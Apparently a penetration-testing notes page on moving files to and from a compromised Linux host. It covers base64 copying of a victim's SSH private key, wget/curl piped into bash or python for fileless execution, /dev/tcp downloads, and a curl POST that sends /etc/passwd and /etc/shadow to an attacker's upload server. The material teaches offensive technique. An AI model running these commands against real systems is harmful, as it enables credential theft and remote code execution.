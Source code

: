 # Linux File Transfer Methods

## Base64 encoding

This is helpful in scenarios like <mark style="color:green;">copying the ssh key of a user to our local machine.</mark>

```shell-session
victim@target$ cat id_rsa |base64 -w 0;echo
#Now we decode the data on the other machine:
victim@target$ echo -n "encoded string" | base64 -d > id_rsa
```

to verify if the transfer was indeed successful we could check the md5 hashes on the two machines:

```bash
attack@attack$md5sum id_rsa
```

## cURL / wget

```bash
$wget <url> -O output_filename
$curl <url> -o output_filename
```

We could turn the functioning of pipes to our advantage to make a [<mark style="color:red;">fileless attack.</mark>](https://learn.microsoft.com/en-us/defender-endpoint/malware/fileless-threats)&#x20;

```bash
victim@target$wget -q0- <url-to-a-bash-script> | bash
victim@target$curl  <url-to-a-python-script> | python3
```

{% hint style="danger" %}
The <mark style="color:red;">`-qO-`</mark> option is necessary for wget to function correctly because if not specified, it will indeed download the file.&#x20;

<mark style="color:red;">`-`</mark> stands for STDOUT which is then piped directly to the python interpreter.
{% endhint %}

## Download with Bash (/dev/tcp)

We should start a listener on a machine (our host or the target's) then use the built-in /dev/TCP device file to open a connection.

```bash
attack@attack$nc -nlvp <port>
```

<pre class="language-bash"><code class="lang-bash">victim@target$exec <a data-footnote-ref href="#user-content-fn-1">3&#x3C;></a>/dev/tcp/machine-to-connect-to/port
victom@target$echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&#x26;3
victim@target$cat &#x3C;&#x26;3 > LinEnum.sh # Reads from FD3 and saves it to LinEnum.sh
</code></pre>

Or you could upload the file from your machine using:

```bash
target@target$nc -lvp 4444 > file_on_target
```

```bash
attack@attack$exec 3<>/dev/tcp/target-ip/port
attack@attack$cat my_file >&3
```

And finally to close the connection:

```bash
victim@target$exec 3<&- 3>&-
```

{% hint style="info" %}
<mark style="color:blue;">In conclusion, the</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`/dev/tcp/hostname/ip`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">is our go-to if the wget, cURL or any other method can't work since it might be already compiled (it is by default as long as bash is v2.04 or greater).</mark>

<mark style="color:blue;">The idea is to</mark>

* <mark style="color:blue;">open a listener on a machine (target or attacking host)</mark>
* &#x20;<mark style="color:blue;">launch a connection with the built-in dev file from the other.</mark>
* <mark style="color:blue;">Use a GET request or</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`cat`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">command and then redirect it to the FD... It all depends on the need and the method available since inbound or outbound connections could be denied and restricted.</mark>

<mark style="color:blue;">About the 3<> part of the command :</mark>

* <mark style="color:blue;">`3`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">refers to the file descriptor number. In Unix-like systems, file descriptors are used to manage input/output streams. File descriptors</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`0`</mark><mark style="color:blue;">,</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`1`</mark><mark style="color:blue;">, and</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`2`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">correspond to standard input, output, and error, respectively. The number</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`3`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">is chosen here to create a new file descriptor for the TCP connection.</mark>
* <mark style="color:blue;">The</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`<>`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">syntax means "open for reading and writing." This opens the file descriptor</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`3`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">as both readable and writable, allowing you to send data to and receive data from the remote server.</mark>
{% endhint %}

## SSH-SCP

> `SCP` (secure copy) is a command-line utility that allows you to copy files and directories between two hosts securely. We can copy our files from local to remote servers and from remote servers to our local machine.
>
> `SCP` is very similar to `copy` or `cp`, but instead of providing a local path, we need to specify a username, the remote IP address or DNS name, and the user's credentials.

Before using scp, we must start ssh:

```bash
# Running ssh
$sudo systemctl start ssh
$netstat -lnpt

# scp for Downloads:
$scp username@remote_host:/path/to/remote/file /path/to/local/directory

# scp for Uploads:
$scp /path/to/local/file username@remote_host:/path/to/remote/directory
```

## Web Uploads

#### HTTPS python server

The idea of this part is hosting a web server on our attacking machine and upload the wanted files from the target host. For this we'll need the [uploadserver module](https://github.com/Densaugeo/uploadserver).

```bash
# Installation
attack@attack$sudo python3 -m pip install --user uploadserver

# Creating a Self-Signed certificate for the HTTPS protocol
attack@attack$openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# Setting up and running the server
attack@attack$mkdir https && cd https
attack@attack$sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
File upload available at /upload
Serving HTTPS on 0.0.0.0 port 443 (https://0.0.0.0:443/) ...

# Starting the upload from the compromised machine
victim@target$curl -X POST https://attacking_IP/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

{% hint style="warning" %}
The `--insecure` option is necessary since we used a Self-Signed certificate.
{% endhint %}

### Simple HTTP servers

Depending on what's installed on the compromised machine, we can run a HTTP server using one of these commands:

```bash
# 1. Python
victim@target$python3 -m http.server

    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

victim@target$python2.7 -m SimpleHTTPServer

    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

# 2. PHP
victim@target$php -S 0.0.0.0:8000

    [Fri May 20 08:16:47 2022] PHP 7.4.28 Development Server (http://0.0.0.0:8000) started

# 3.Ruby
victim@target$ruby -run -ehttpd . -p8000

    [2022-05-23 09:35:46] INFO  WEBrick 1.6.1
    [2022-05-23 09:35:46] INFO  ruby 2.7.4 (2021-07-07) [x86_64-linux-gnu]
    [2022-05-23 09:35:46] INFO  WEBrick::HTTPServer#start: pid=1705 port=8000
```

After running one of these one-liners, we can then download the files we prefer using a simple wget command:

```bash
attack@attacl$wget target_ip:port/filetotransfer.txt
```

[^1]: Explained below.
